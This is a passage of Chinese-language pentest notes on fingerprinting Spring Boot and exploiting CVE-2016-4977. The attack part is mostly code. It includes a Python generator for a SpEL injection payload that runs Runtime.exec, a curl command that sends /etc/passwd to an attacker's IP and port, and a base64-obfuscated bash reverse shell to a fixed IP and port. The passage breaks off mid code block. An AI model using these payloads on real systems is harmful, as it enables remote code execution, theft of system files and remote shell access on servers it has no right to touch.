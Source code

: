 2.springboot 4xx,5xx的默认报错页面

![image-20210529225327692.png](..\..\public\img\springboot-1)

3.Wappalyzer 插件识别

4.X-Application-Context



#### **首先CVE-2016-4977**

vulhub提供了poc

```python
message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch)
poc += ')}'

print(poc)
```

>curl 攻击端ip:攻击端端口 -d "$(cat /etc/passwd)" 
>
>使用curl 来测试返回在是否能发送数据，-d代表发送数据 
>
>使用nc 监听端口即可收到消息
>
>
>
>bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMjQuNC4yNi84ODg4IDA+JjE=}|{base64,-d}|{bash,-i} 
>
>反弹shell并用poc生成字节码
>
>```